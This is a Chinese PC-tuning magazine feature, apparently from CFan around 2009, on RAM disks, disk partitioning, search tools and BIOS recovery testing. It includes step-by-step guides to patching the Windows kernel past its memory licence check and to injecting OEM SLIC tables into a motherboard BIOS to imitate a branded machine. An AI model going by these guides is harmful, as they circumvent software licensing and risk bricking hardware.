在多核CPU环境下，程序运行时究竟用哪个内核？这本来是由操作系统管的，但我们也能根据需要手动分配。
右击任务栏空白处选择“任务管理器”，在“进程”选项卡中找到要调整的进程，右击它并选择“关系设置”，然后在弹出的“处理器关系”窗口中，只保留此进程需要使用的CPU核心，点击“确定”。

- (2) 程序关闭后“六亲不认”
指定CPU核心仅限于正在运行的程序，一旦程序关闭就不再保存这种指定关系。可以使用WinLauncherXP（下载地址：http://work.newhua.com/cfan/200918/winlauncherxp.zip）来绑定程序与CPU内核的关系。
第一步：下载安装WinLauncherXP后，打开并在主界面选择菜单“Programs→Add a program configuration”（程序→加入一个程序配置），然后在“Standard options”（标准选项）按提示的3个步骤添加应用程序。
第二步：切换至“SMP”选项卡，如果需要让程序运行在第二个核心，那么勾选“Processor 2”（处理器2，也就是内核2）就可以了。
第三步：选择菜单“File→Preferences”（文件→参数选择），勾选“Start GOCC minimized in system tray”（软件运行后自动最小化至系统托盘）及“Launch GOCC at Windows start-up”（软件随Windows启动）项即可。

小提示：
只建议将杀毒软件的扫描程序、磁盘整理程序等系统后台的进程和应用程序级别的程序分内核处理，否则只会让速度更慢。

## 内存——兵家必争之地

以马江为首的纨绔们一出手便尽是4GB的内存，可他们却不知道这样每次开机之后系统会花更长的时间在内存寻址上。Windows 7正式发布后，高配内存的电脑肯定越来越多，可能真正发挥大内存好处的却实在不多。

- (1) 网页缓存零延时
打开网页的速度除了受网速影响外，写入硬盘中的网页缓存文件也是个大问题。如果将大内存用Ramdisk Plus分出一部分作为虚拟的硬盘空间，然后将网页临时文件目录设置在虚拟盘符下，那就大大提高了下载网页时的效率，速度的变化很明显。具体使用方法可以在Google上搜索“ramdisk IE临时文件”来找到。

- (2) 取消虚拟内存不可取
即使你的物理内存已经多到用不完，也不能取消系统中的虚拟内存，否则在运行大型软件或游戏时会出现各种异常的问题。

## 意料之外的胜利

三天时间很快就到了，云茜惴惴不安地带着龙晓精心设置过的电脑去了学校。马江一副暴发户的嘴脸，竟然连音箱都搬过来了。马江果然如他自己所言装上了Windows 7，在高配置下倒也确实算得上流畅。龙晓一脸玩味地看着他，然后打开了云茜那台配置让他们觉得非常垃圾的电脑。经过大家一番试用，马江果然灰头土脸地去操场跑了一百圈，据说跑到深夜才跑完……（据说有用功到很晚的学妹晚上经过操场时看到了一个独自奔跑的男子，回家后在学校BBS上就多了关于“夜奔男传说”的讨论）

## 大时代、大内存、大硬盘、大搜索的故事

在欧洲，一个人白手起家想赚100万欧元需要100年—欧洲的社会福利非常完善，所有人都有自己的位置和等级，想改变自己的等级，需要的是运气、勤奋、时间。在美国，一个人白手起家，想赚100万美元需要10年—美国的福利制度不像欧洲号称从摇篮到坟墓，但在这样一个高度发达的国家，100万用10年的时间也不能算太久。在中国，赚100万元需要多久？两年。改革开放初期，那些贩卖走私墨镜的人赚到了第一笔钱，后来的深圳、浙江，辛勤的创业者最终走出了贫困，创造了财富……10月，当我们的国家迎来第60个生日的时候，一个不可抗拒的事实摆在眼前—我们迎来了祖国的最好的时代，崭新的时代，一个大时代。与时俱进，人们富裕了，电脑设备是不是也同样走入大时代了呢？4GB的内存、500GB的硬盘、大量的资料分拣，给你带来了方便和高效之外，是不是管理的复杂也让你挠头呢？

## 本文你将学到

- ★大内高手：将内存发挥到极致
- ★御林军：统领大硬盘
- ★大内密探之我是神“搜”

## 大内高手：将内存发挥到极致

我们知道一般应用下，Windows Vista或Windows 7需要的内存大概在1GB左右。也就是说，当系统有超过2GB的可用内存时，系统并不会因为内存容量的增加而提升性能，没有用到的内存空间就是一种浪费。怎样利用好这些剩余资源，我们得请教大内高手们有啥高见！

## 实战：让VSuite Ramdisk当大内总管，内存再大也不怕（适用于所有Windows系统）

与同行相比，这位名叫VSuite Ramdisk（专业版）的大内高手可以识别操作系统识别不到的内存，通过虚拟成硬盘的方式加以充分利用，而且可以将物理内存映射成多个硬盘。
大内总管的任务：假设系统的物理内存容量为5GB，X86架构的Windows 7系统自身需要大约500MB～2GB的物理内存，也就是说物理内存至少还有3GB剩余空间可以映射为硬盘。但是由于系统本身只能使用全部内存中的3GB（硬件配置不同的，在可识别的内存容量有一定区别），另外的2GB无法被系统识别而无法使用。如果我们要从未被系统使用的物理内存中映射出一个3GB虚拟硬盘，用于存放系统、浏览器的缓存文件，而甚至直接运行软件，操作步骤如下：

- 第一步：到http://www.newhua.com/soft/84643.htm将VSuite Ramdisk（专业版）下载到本地，解压并安装到本地硬盘（注意，VSuite Ramdisk是一款共享软件，全功能试用的时间是15天）。
- 第二步：运行VSuite Ramdisk，在软件主界面打开“杂项”，勾选“启用系统未识别的内存”，确认弹出的警告窗口，然后在弹出的窗口中勾选“支持未识别内存休眠”，这样设置之后我们就可以使用系统未识别的内存了。
- 第三步：切换到“内存虚拟硬盘”页面，在“创建模式”下将“硬盘容量”设为“3096”，然后设置虚拟磁盘的盘符（R）、文件系统（NTFS）和卷标（RamDisk）等属性，接着勾选“优先使用系统未识别内存”选项，单击“创建”按钮即可完成设置。
- 第四步：虚拟硬盘创建好了之后，我们就可以把当前系统的一些临时文件路径指向这个盘。

小提示：
重新启动Firefox程序后，在地址栏输入“about:cache”来检查Cache和离线网页文件的位置修改是否成功。如果没有成功，则检查一下“browser.cache.disk.enable”和“browser.cache.offline.enable”的值是否为“True”。

## 相关提示：常见的虚拟磁盘扩展实战

- ★扩展实战一：让虚拟内存实体化
- ★扩展实战二：让内存成为系统缓存
- ★扩展实战三：把浏览器的临时文件夹设在内存上

依次打开“控制面板→系统和安全→系统”（或者Windows+Break热键），点击“高级选项设置”，在弹出的窗口的“高级”页面中单击“性能”项目中的“设置”按钮，接着在弹出窗口的“高级”即可更改虚拟页面文件大小了。
以Windows 7为例，默认是由系统托管的，取消勾选“自动管理所有驱动器的分页文件大小”，然后选择RamDisk盘，将初始大小设置为16MB，最大值则设置为一个较大值（比如768MB，这是Windows 7系统的页面文件最大值的下限，如果不设置，系统需要页面文件时会自动申请），这样系统就可以根据实际需要来申请页面文件了。

首先在虚拟磁盘下新建一个名为Temp的文件夹，然后依次打开“控制面板→系统和安全→系统”，点击“高级选项设置”，在弹出的窗口的“高级”页面中单击“环境变量”按钮，接着将当前用户下的“TEMP”和“TMP”这两个变量路径指向“R:\Temp”即可。

在基于IE内核的浏览器中打开“Internet选项”，在“常规”页面下单击“浏览历史”项目中的“设置”按钮，在弹出的窗口中单击“移动文件夹”按钮，然后将路径指向RamDisk盘即可。
FireFox：打开Firefox浏览器，在地址栏输入

## ★扩展实战四：把虚拟机系统装进内存

在VMware Workstation、Virtual PC和VirtualBox等虚拟机运行Windows XP系统时，如如果物理内存足够大，我们可以将虚拟机系统放在虚拟机磁盘中，这样速度可以得到极大的提升。以在VMware Workstation运行Windows XP系统为例。
第一步：打开VMware Workstation，新建一个Windows XP系统的新项目（具体操作请参考本期相关文章，笔者不再赘述），将虚拟机文件保存在RamDisk（假设为R:\Windows XP），然后执行系统安装（速度会比直接安装到物理硬盘的快很多）。
第二步：待Windows XP的虚拟机系统安装完成后，将R:\Windows XP文件夹拷贝到本地硬盘中（比如F盘），以避免系统重启而丢失。
第三步：感受内存的速度提升，分别选择从物理磁盘R:\Windows XP和启动虚拟磁盘R:\Windows XP中启动Windows XP，对照一下时间，你可以发现从R:\Windows XP中启动系统会快很多。同理，这个方法你也可以用在其他的虚拟机系统上。

## 小知识：什么是Memory Remap？

简单地说，内存的编码地址与系统的逻辑地址之间可以通过某种函数（Function）进行转换（map）。我们知道物理内存的编码地址必须是连续的，不能断开，而系统的地址空间（也叫逻辑地址）是连续也可以是不连续的。物理地址就像城市街道和房屋，是固定的（移动的（相当于编码地址是连续的），为了让人们更加容易找到房屋，当规划局就根据一定的规律制定街道号和房屋门牌号（相当于系统设定逻辑地址），逻辑地址的连续是指给同一个街道的门牌号是连续的，而逻辑地址的不连续则是指街道的编码可以是不连续的。正是由于这种不连续性，才使得32位Windows突破的4GB内存容量的许可限制成为可能。

## 实战：大内高手之挥刀自宫，突破4GB内存限制

大内高手的功力增长到一定程度后，想要再上一个台阶就很难了。难道只有那些X64的家伙才能突破4GB上限吗？非也！有葵花宝典在手，只要大内高手愿意挥刀自宫，立马可以突破这个障碍。

破解的限制：
就像练葵花宝典一样，不是所有人都适合练葵花宝典。同样的并不是所有的X86系统平台都可以破解4GB的内存容量限制，只有满足了以下硬件或软件条件的电脑才可以破解该限制：
1. CPU：有基于X86或X64架构都可以，目前市售的Intel或AMD的产品都可以满足要求。
2. 主板：Intel平台必须基于P965以及后续版本的芯片组。而AMD方面，由于64位CPU（Athlon64）集成了内存控制器，因此只要支持Athlon64 CPU的主板都可以。
3. BIOS：支持Memory Remap功能。现在的BIOS程序默认是开启该功能的，因此大部分主板BIOS都不再显示该设置。
4. 操作系统：Vista SP1及其后续的版本32位X86Windows（X64 Windows不需要破解），实际上需要的是系统具备AWE（地址窗口扩展，只要物理内存超过2GB，系统将自动开启）和PAE（物理地址扩展，非服务器版本系统默认是关闭的，需要通过设置启动开关来打开）两个功能。所有架构的Windows都是具备的。
5. 通过AWE函数来分配和映射的内存有几个限制：一是进程之间无法共享内存页面，二是同样的物理内存不能被映射至同一进程的多个逻辑地址。

破解的原理：
通过修改Vista SP1及其后续的版本的Windows内核文件ntkrnla.exe，让系统绕过ZwQueryLicenseValue API函数的许可限制，给超过4GB以上的物理内存重新分配一个新的逻辑地址空间，从而使32位X86的Windows Vista、Windows 7支持超过4GB的物理内存，最大可达128GB。

破解的步骤：
- 第一步：到http://work.newhua.com/cfan/200919/ReadyFor4GB.rar下载ReadyFor4GB.rar（请编辑提供下载），解压下载回来的文件，用管理员权限运行ReadyFor4GB.exe。
- 第二步：点击程序主界面上的“检查”按钮，查看32位Windows Vista、Windows 7的内存容量许可限制。可以看出，当前的系统内存容量为5GB，是由1根2GB和3根1GB的内存所组成，系统最大的内存许可是4096MB（即4GB），而实际最大的内存许可是131072MB（即128GB）。
- 第三步：点击程序主界面上的“应用”按钮，弹出一个要修改ntkrnla.exe内核文件的确认窗口，单击“确认”，内存文件将被破解并重命名为ntkr128g.exe。
- 第四步：用管理员权限运行AddBootMenu.cmd（刚才解压的文件夹中），根据提示输入“Y”并回车，程序将自动添加新内核ntkr128g.exe的开机启动菜单。
- 第五步：打开“控制面板→系统和安全→系统”项目，打开左侧的“高级系统设置”项，在弹出的“系统属性”窗口中打开“启动和故障恢复”的“设置”选项，将默认操作系统设置为新内核模式后确认操作，重启后即可直接进入破解后的系统了。
- 第六步：如果你想确认系统是否被破解，在Windows 7系统下打开“任务管理器”，切换到“性能”选项卡，看一下物理内存的总数，或者点击“资源监视器”查看一下内存的映像情况。

## 御林军统领大硬盘

硬盘，操作系统之皇城也。正所谓硬件有价，数据无价。我们要守卫好这座“皇城”，必须要挑选出合格的御林军将士及其统领。

实战：恪守各职！御林军之大硬盘分区规划
现在大容量硬盘越来越流行，3000元以上价位的预算就可以随便配上500GB甚至1TB的大硬盘。不过大硬盘的分区让普通用户越来越无所适从，到底该怎么划分才算合适呢？御林军要守卫好皇城，就是让所有人明白各个区域的功能，可干什么不可干什么，越权、越位是不可以的。大硬盘的分区方式就是需要尊重这种“恪守各职”的规则，下面我们就一起来学习学习。
大硬盘的所有分区建议采用NTFS格式，与容量小的情况不同，这是给大硬盘分区的基本规则：
1. 如果安装Windows XP系统，C盘容量在20GB左右；
2. 如果安装的是Windows Vista系统，则C盘容量应扩大到40GB～60GB；
3. 数据和文件越多，备份就越重要，因此在大硬盘中至少保留一个备份应用程序和文档资料的分区；
4. 经常要下载，建立一个专门的下载分区是必要的。下载过程是频繁读写硬盘的过程，由于磁盘末尾的分区调整大小和屏蔽坏道更方便，建议在磁盘末尾保留一个用于下载的交换分区，程序、视频和游戏下载完成后再转移到相关分区中；
5. 对于追求系统性能最大化的用户，可以在C盘建立一个小分区，存放虚拟内存文件、IE缓存、临时文件等容易造成磁盘碎片的文件，以提高系统盘性能；
6. 建议剩余空间可作为一个或两个超大型分区，用于保存游戏或高清视频即可。需要注意的是，分区不宜过多，否则容易造成功能的混乱。

小知识：何谓御林军？
洪武二年（公元1369年），朱元璋设立亲军都尉府，专事对皇城的保卫。洪武六年（公元1373年）设守卫金牌或镀金牌，牌上有篆文“守卫”、“随驾”字样，存尚宝司，军士值班领取佩带。
洪武十五年（公元1382年），建锦衣卫，设南北镇抚十四司，其编制将军、力士、校尉，专门为皇帝护驾，并有巡查缉捕任务，这就是御林军。

| 盘符 | C | D | E | F | G |
|------|---|---|---|---|---|
| 普通玩家型 | WinXP: 20GB <br> Vista/Win7: 30GB～40GB | 20GB <br> 存放临时文件、IE缓存及部分常用软件 | 300GB <br> 大型游戏 | 400GB <br> 文档资料、备份应用软件、高清视频等 | 50GB <br> 下载交换区 |
| 游戏发烧型 | WinXP: 20GB <br> Vista/Win7: 30GB～40GB | 20GB <br> 存放临时文件、IE缓存及部分常用软件 | 800GB <br> 大型游戏 | - | 100GB <br> 下载交换、文档备份等 |
| 高清发烧型 | WinXP: 20GB <br> Vista/Win7: 30GB～40GB | - | 850GB <br> 文档资料、程序备份、高清视频 | - | 100GB <br> 下载交换、文档备份等 |
| 多硬盘高清发烧型 | 1TB：全部存放高清视频 | - | - | - | - |

## 实战：慎用第三方工具，Windows系统光盘才是保障

可以分区的第三方软件很多，但是部分软件需要环境支持，可能只能在DOS状态下运行，也可能Windows Vista、Windows 7不支持，而且随着硬盘容量上限的增加，一些较老的分区软件会出现不兼容的问题，为了避免出现问题，最好的办法就是用Windows系统自带的工具来分区。不过，在一块新硬盘上安装Windows系统，笔者建议在安装过程中只对C盘进行分区，剩下的空间进入系统后再进行细分。
Windows XP的分区方法：安装界面光标移到整个硬盘未划分的空间，按“C”键创建磁盘分区，在新界面中输入创建磁盘分区的大小（20GB=20480MB），回车即可；
Windows Vista的分区方法：在Vista的安装界面上选中没有分区的硬盘，点击“驱动器选项（高级）”，在出现的高级操作菜单中选择“新建”，然后输入你想要分区的大小，点击“应用”即可。

实战：慎用Windows 7光盘分区，绕开保留的系统分区
在一块全新的硬盘上，通过Windows 7光盘来格式化并安装系统，进入系统后打开磁盘管理器（运行diskmgmt.msc），可以看到在系统分区之前有一个大小为100MB的隐藏分区，因为Windows 7系统没有分配盘符，所以在资源管理器中是不可见的。
实际上，这是微软对Windows 7启动系统改进后的功能，目的是让启动系统更加安全可靠。不过如果这样安装Windows 7后再安装Windows XP，那么在XP下该分区依然会被显示出来的，这会使得整个硬盘的盘符分配显得很混乱。如何避免Windows 7光盘的作多情呢？实际上你可以利用Diskpart命令来解决这个问题。方法如下：
第一步：在新机器上插入Windows 7安装光盘，进入到安装界面的时候按下“Shift+F10”热键，打开命令提示窗口。
第二步：在命令提示窗口中逐个输入以下命令：
diskpart
- 1. 系统性能最大化：在C盘建立小分区存放虚拟内存、IE缓存等。
- 2. 剩余空间作为超大型分区，用于游戏或高清视频。
- 3. 至少保留一个备份分区。
- 4. 建立专门的下载分区。
- 5. 大硬盘分区建议采用NTFS格式。

list disk（显示当前系统下的所有硬盘）
sel disk 0（0为新硬盘的编号）
cre part primary size=40960（在硬盘上0磁道开始往后建立一个40GB的主分区）
select partition 1（选择刚建立的分区）
active（激活主分区，否则无法启动）
format fs=NTFS quick（快速将当前分区格式化为NTFS格式）
exit

第三步：完成上述步骤后，关闭命令提示窗口，然后按照平时的流程继续安装Windows 7，不过在选择系统分区的时候可以绕开安装程序的新建磁盘功能了，选择刚才建立好的40GB主分区即可。

## 小知识：Windows 7启动系统包含哪些文件？

与Vista一样，Windows 7也是采用bootmgr+BCD的方式来启动系统（即Windows Boot Manager，简称WBM）。实际上，WBM一般由bootmgr、BOOTSECT.BAK文件以及Boot文件夹组成，在Boot文件夹中包含了BCD、BCD备份以及启动界面的语言和字体等。

## 实战：任命皇城的御林军统领——Acronis Disk Director Suite

尽管Windows自带分区工具的功能越来越强大，但还有很多功能是无法实现的，比如大硬盘使用一段时间后，发现原来的分区方法并不是很完善，需要进行调整，怎么办呢？这时你需要一个功能强大而且与系统兼容性更好的帮手——Acronis Disk Director Suite（简称ADDS，下载地址为http://down.vista123.com/AcronisDiskDirector10.rar）。

御林军统领的任务：假设在只有一个主分区的320GB硬盘上，里面已经存放有约100GB的数据了，但是我们希望在硬盘的最前面划分出一个40GB大小的主分区，用于安装Windows系统，该怎么操作呢？

第一步：下载并安装ADDS。安装过程很简单，这里就不再赘述。第一次启动时可以选择Automatic（自动模式）还是Manual（手动模式），建议手动。

第二步：选中目标硬盘，然后用“Resize”工具打开重新调整分区对话框，在弹出的窗口中将“Unallocated space before”的数值设置为40GB（你可以调整Partition size的大小来调整，你也可以拖动进度条来设定），然后点击“OK”确定设置即可。

第三步：这样就在原来分区前划出了一个40GB的未分配空间了，在该空间上右键选择“Create Partition”命令，在弹出的窗口中将目标分区设置为“Primary Partition（即主分区）”，单击“OK”确认操作。

第四步：分区设定好了之后，点击工具栏上的“提交”按钮，ADDS就可以在无损失的条件下完成分区的重新调整了。如果该硬盘已经被系统使用了，ADDS会要求重启，重启它会在进入桌面之前进行分区调整，这样不会造成数据丢失。

## 大内密探之我是神“搜”

皇城实在太大了，很多地方不是御林军或大内高手能顾及到的。皇帝老子就怕自己掌控不了皇城，于是找来一些个能人异士组成大内密探，帮他到处打听，监视皇城内的一举一动，谁在私底下说坏话甚至谋逆，皇帝基本上都是一清二楚的，于是高枕无忧也。

## 实战：大内密探零零七——Everything，换掉XP的搜索功能

想从硬盘里保存的众多文件快速找到需要的文件，“搜索”功能无疑是最佳的选择。和Vista、Win7系统几乎随处可以进行的搜索功能比起来，XP的搜索功能简直是天壤之别，不仅搜索速度慢且搜索的自由度也较低。怎么办呢？那就得请出大内密探007——Everything了（下载地址：http://www.newhua.com/soft/85579.htm），它是一款免费的绿色软件，解压后即可使用。

第一步：默认状态下，Everything的界面是英文的，在程序的主界面中依次点击“Tools→Options→General→Language”，在下拉菜单内选择“简体中文”，重新启动软件后切换到中文界面。

第二步：打开Everything后，直接在搜索框输入关键字（支持中文关键字，可以输入多个关键词，以空格或正则表达式来分开即可），Everything就可以立马给出答案，速度非常快，而且在搜索结果中，可以直接进行复制、粘贴、剪切等操作，很方便。

### 小提示：Everything的原理与局限

Everything建立索引和搜索速度都是非常快的，实际上它并没有全部逐一扫描我们硬盘上的文件，而是通过读取NTFS文件系统中的USN日志来完成的。NTFS文件系统中的USN日志记录了系统对NTFS分区中的文件所做的所有更改。然而，由于Everything的工作原理是基于NTFS文件系统的，也就是说它不能在FAT32文件系统上使用。如果你的文件系统还是FAT32，而又想使用Everything的话，你可以通过“Convert X:/FS:NTFS”来转换磁盘的文件格式。其中，X代表你要转换的盘符。

### 举一反三：Everything中的正则表达式技巧

- ★在Everything的搜索框中输入多个关键词，以空格分开，表示搜索结果要包括全部关键词。举例：键入（不包括引号，下同）“北京 2008 jpg”，可以快速找出某些照片。
- ★当你不确信关键词的准确描述时，可以使用“与”、“或”运算，用半角竖线“|”表示。举例：要搜索所有包含“电脑爱好者”或“cfan”关键词的文件或文件夹，那么输入“电脑爱好者|cfan”即可。
- ★既然空格表示“与”，那么如何表示真正的空格呢？很简单，加英文半角引号，比如“program files”。

第三步：Everything还可以直接选择某个需要进行搜索的磁盘、文件夹，随后打开右键菜单并执行“Search Everything”即可在当前指定位置中进行搜索。除了通过菜单执行指定目录的搜索之外，也可以直接在搜索框输入完整目录路径（需要用半角双引号括起来），随后再输入搜索关键词。

第四步：Everything默认是对整个硬盘进行搜索，如果你想将部分磁盘排除，可以在选项中进行设置。依次执行“工具→选项→卷”，选中撤销搜索的分区，取消对应“检查媒体”和“启用USN日志记录”选项即可。如果只想排除部分文件夹，可以进入“排除”标签，随后点击“添加文件夹”添加需要排除的具体文件夹，在这儿也可以直接添加整个磁盘。

### 大补丸：文件搜索软件大放送

- ★AvaFind Pro
AvaFind Pro是一款通过对硬盘建立缓存来查找目录或文件的绿色软件，支持NTFS、FAT32文件系统。
下载地址：http://www.duote.com/soft/10206.html
- ★Locate32
Locate32也是一款可以快速搜索本地磁盘文件的搜索工具，它需要对磁盘进行检索建立数据库，以便在搜索时达到即搜即有的效果，同样支持正则表达式。
下载地址：http://www.ttdown.com/Down/57981.html
- ★Super Finder
Super Finder是一款强大的搜索软件，功能更为强大，支持内容搜索，可以通过文本，Unicode，十六进制进行搜索，以及通过时间或者文件属性，比如大小、存档、只读等等来查找。
下载地址：http://www.skycn.com/soft/25469.html

## 实战：大内密探零零狗——Registry Crawler，快速消灭系统的自启动程序

在维护电脑时经常需要到注册表编辑器，不过系统自带的编辑器的搜索功能非常多，只能一个一个地找，不得不反复按下F3键搜索下一个，搜索的速度极慢。如果你有大内密探零零狗——Registry Crawler（下载地址：http://www.crsky.com/soft/981.html），那么就省事多了。

零零狗的任务：在Windows系统中有很多种方法可以让某个程序自动运行，其中大部分是通过注册表来进行的（网络大补丸：系统自启动程序之十大藏身之所：http://tieba.baidu.com/f?kz=134505547）。如果某台机器中毒了，病毒程序通过修改注册表实现了自启动，怎么办？

第一步：运行Registry Crawler，在“搜索”输入框中输入Run、RunOnce、RunServices等具有自动性质的注册表关键位置的键名，“搜索位置”上勾选“键”和必要分支，然后将“搜索方式”设置为“整字匹配”从而缩小搜索范围，接着单击“执行”按钮，搜索结果就立马可以显示出了。

第二步：在搜索结果中双击你觉得可疑的项目，在注册表中打开链接，将可疑的项目清除即可。

第三步：如果你害怕误操作，你可以在Registry Crawler中先对目标进行备份，选择中你需要备份的目标键值，然后单击右侧工具条中的“导出”键，在弹出的窗口中单击“导出”就可以了。

### 大补丸：注册表搜索软件大放送

- ★RegScanner
RegScanner是一款绿色的注册表检索软件，只有1个几十K大的主程序，检索速度与深度丝毫不同类专业产品，上手很容易，特别适合于新手使用。
下载地址：http://www.crsky.com/soft/10847.html
- ★Registry Workshop
Registry Workshop是一款高级的注册表编辑工具，功能非常丰富，完全能够替代Windows系统自带的注册表编辑器，并且搜索的功能也非常强大，适合有经验的朋友：
下载地址：http://www.skycn.com/soft/16438.html

## 植入SLIC 打造兼容品牌机

### CFan评测室应邀实测SLIC的修改与BIOS恢复技术

最近大虾入手了HP的小机箱和HP的显示器，为了达到整体统一，HP鼠标键盘必不可少。但是他凑齐所有装备后，突然发现虽然外观上HP品牌机的形象达成了，但在操作系统里却没有那个小小的HP LOGO。事事力求完美的大虾可不能允许这种情况发生，说干就干……

孔子他老人家说过：“温故而知新，可以为师矣”。所以啊，先复习下以前的知识吧……

### OEM信息，BIOS是关键

在品牌机的BIOS中，存在着一个叫SLIC的东西，SLIC的英文全称是Software Licensing Internal Code，翻译过来的意思就是内部软件许可号码。说白了就是一张品牌的身份证。

说到OEM信息的问题，我们再介绍两个名词：一个是ACPI（Advanced Configuration and Power Management Interface），即高级配置和电源管理接口；一个是SLDT（Software Licensing Description Table），即软件许可描述表。SLIC包含在SLDT中，SLDT又包含在ACPI中，ACPI又包含在BIOS之中。

那么，我们主要的任务就是更改这些和OEM有关的信息，任务来了，让大虾我慢慢研究吧。

## 刷新失败，谁能拯救你

既然涉及到刷新BIOS，我们就要知道，如果刷新失败，那意味着主板从此基本变成“植物人”。但实际上各大板卡厂商已经为它们留好了后路，如果主板不支持高级的BIOS恢复技术，就只用运用古老的“盲刷”大法了。

- 第一步：准备好软驱和软盘。
- 第二步：把软盘制作为DOS启动盘。
- 第三步：把BIOS刷新程序awdflash.exe和BIOS数据文件BIN拷贝到启动盘里。打开记事本，输入awdflash *.bin /py/sn/sb/cd/cp/r（AMI BIOS使用afudos刷新工具，并输入afudos /iamiboot.rom），另存为Autoexec.bat文件，拷入启动盘中。
- 第四步：将做好的启动盘插入到软驱中启动电脑，系统开始读软驱，在软驱停止读盘后，系统自动重新启动电脑。

### 小知识：为何BIOS刷新失败后只能使用软驱恢复？

主板厂商为避免用户刷新BIOS时出现差错，特意将BIOS分成了两个区域：一个存放着BIOS的程序代码；另一个存放的是不能被我们修改的，用来急救的一小段程序代码。所以当我们用软件查看BIOS文件时，往往会发现文件的实际容量比标准的1MB、512KB稍小一些，这个我们看不到也不能修改的部分就是BIOS的根区。

当我们开机时，计算机会首先执行根区（也叫引导模块）程序，由它检测BIOS文件的完整性，如BIOS完好无损时，就会正常引导自检；如发现BIOS程序受到破坏就会启用根区程序（也叫引导模块），但这时程序能够驱动的只有软驱、ISA显卡、键盘等最“原始”的设备，连硬盘都不能识别。假如这时主板插有ISA显卡和DOS启动盘的话就可以引导系统进入DOS模式。当然时代在进步，越来越多的新主板在根区内加入了USB设备的支持，这就意味着刷新也不一定只能用软驱。



## 大虾的工作日志

### 10月3日星期六 天气晴

一切准备就绪。好了，先来进行SLIC2.1的添加。
第一步：打开BIOS自动修改工具——AwardTool。AwardTool用于把Award BIOS修改为OEM品牌机（AMITOOL工具用于修改AMI系列的BIOS，两种BIOS工具的使用方法基本相同）。
第二步：在AwardTool中选择原始的BIOS文件。

#### 小提示：
原始BIOS文件有两种获得方法一种是使用专门的备份工具备份一份BIOS，一种是在网上下载新的BIOS版本，这里建议刷新正式版的BIOS，测试版本的BIOS可能会造成各种不可预见的问题。

第三步：选择要修改的主板类型，这里是我们使用的主板类型，不是要变品牌机的主板类型。如果是技嘉主板就选择Gigabyte。

#### 小提示：如何备份原始BIOS文件
- 第一种方法：使用主板配套工具，比如技嘉@BIOS等等。
- 第二种方法：WinFlash（Award BIOS）、AFUWIN（AMI BIOS）在Windows下备份。
- 第三种方法：使用DOS刷新工具Awdflash，在纯DOS环境下使用awdflash /pn /sy bak.bin（bak.bin就是备份的BIOS名字）；AMI BIOS使用Afudos在纯DOS环境下使用AFUDOS bak.bin /o。

第四步：查找BIOS提供的刷新BIOS相应选项，不同主板选项不尽相同，此处不做过多注解。
第五步：加载品牌机原版的SLIC和SLP文件（修改工具、SLIC、SLP及验证文件打包下载地址：http://work.newhua.com/cfan/200919/bios.rar）。
第六步：打开证书进行校验，这个步骤并不是必须的，但是找到证书校验一下毕竟是好事儿，证书文件的扩展名是XRM-MS。如果证书与修改的BIOS版本匹配，那么会显示证书匹配字样。
第七步：选择在BIOS中改写OEM的方法，这里有ISA、超静3、动态、0+2、OEM7等几种方法可供选择，我们一般选择超静3。
第八步：选好方法后，我们就可以执行了。如果加入成功了，会显示“SLIC已经加入成功的字样”，如果加入失败，会出现的提示，说明这种方式不适合对当前BIOS进行修改。



由于自动化工具默认生成的文件名相同，所以我们每次修改后要对文件进行一次重命名。
注意，一般情况下，默认的文件名是“原文件名_slic”的形式，其他的生成文件是用于比对的，我们可以暂时不用理会。

#### 小知识：如何简单判定BIOS修改失败
BIOS自动修改工具修改过原版BIOS之后，一般会生成两个模块的文件，比如ACPI.BIN、ACPI_SILC.BIN。如果你发现两个文件大小有差距，就先不要刷新了，黑的几率会很大的。

第八步：把改好的BIOS刷进主板就可以了，什么？你不会刷新？很简单的，使用Winflash（Award）、AFUwin在Windows下刷新，或者像上面盲刷一样制作软盘、闪存盘的启动盘，而后在DOS下进行刷新。
第九步：CMOS清零并开机测试（CMOS不清零很容易导致循环性死机）。

### 10月5日星期一 天气多云

话说，我的主板算是刷好了，虽说没什么坎坷，那算我运气好，也不知道那些主板厂商宣称的恢复技术怎么样？会不会只是噱头，到头来真正用得上的时候不能用呢？

### CFan评测室带来主板 BIOS 恢复技术测试

受到大虾的邀请，此次测试由CFan评测室全面代理，我们将对市售几大拥有BIOS恢复技术的主板进行评测。

#### 主板恢复技术简介

##### 技嘉双BIOS技术：
技嘉DualBIOS的特色是在主板上安装二颗实体BIOS芯片。第一颗作用就像是主要的BIOS，负责每一次的开机执行。第二颗作用就像是备份BIOS，通常安装出厂的BIOS。如果你的主要BIOS发生错误或无法执行，第二颗备份的BIOS就会自动代替主要的BIOS，做再一次自动开机让系统正常工作，而不需关机或使用者去设定。

##### 华硕CrashFree BIOS 3：
华硕最新自行研发的crashfree bios 3工具程序，当BIOS程序和数据被病毒入侵或毁损时，可以轻松地从驱动程序及公用程序光盘中，或是从含有最新或原始的BIOS 档案的闪存盘中恢复BIOS程序的数据。

##### 微星M-Flash：
当BIOS损毁时可由USB闪存盘载入BIOS档案进行开机修复。并且可利用M-Flash功能，直接预加载闪存盘中的BIOS程序开机测试。

#### 测试方法及选手亮相
测试一：使用工具各种模式（ISA、超静3、动态、0+2、OEM7等）分别修改BIOS，进行刷新，判定哪种模式会导致此款主板罢工。
测试二：使用16进制编辑器改写BIOS程序中ACPI，将ACPI字符串后面的16位全部改为FF，此举可以确保BIOS刷新后主板一定罢工。并且由此判断BIOS校验是否有作用。
测试三：将测试二中的错误BIOS刷新进主板中，测试BIOS恢复技术的可行性。
测试产品：技嘉GA-EP43-US3L、华硕P5Q Pro Tubro、微星G41TM-E63

##### 技嘉GA-EP43-US3L

| 测试项目 | 测试结果 |
| :--- | :--- |
| BIOS修改模式 | ISA | YES |
| | 超静3 | YES |
| | 动态 | YES |
| | 0+2 | YES |
| | OEM7 | YES |
| 校验测试 | 刷入不同主板BIOS | no |
| | 刷入改坏本主板BIOS | YES |
| 恢复测试 | 软盘恢复 | no |
| | USB闪存盘恢复 | no |
| | 双BIOS恢复 | YES |

##### 规格
主板芯片组
Intel P43+ICH10
CPU插槽
LGA 775
CPU支持类型
酷睿2至尊、酷睿2双核、酷睿2四核、奔腾双核、赛扬双核、奔腾E、赛扬D处理器，奔腾4双核
主板结构
ATX
板载音效
Realtek ALC888 8声道HD声卡
板载网络控制器
Realtek RTL8111C千兆网络控制芯片



简单易用的Q-Flash界面，基本可以抛弃其他BIOS刷新工具，启动只需开机时按下‘END键’。

## BIOS刷新与恢复测试总结

• BIOS刷新前，会进行Checksum校验，简单的16进制结果让人摸不着头脑。

• BIOS自检失败后，随即进行BIOS的恢复，速度非常迅速。

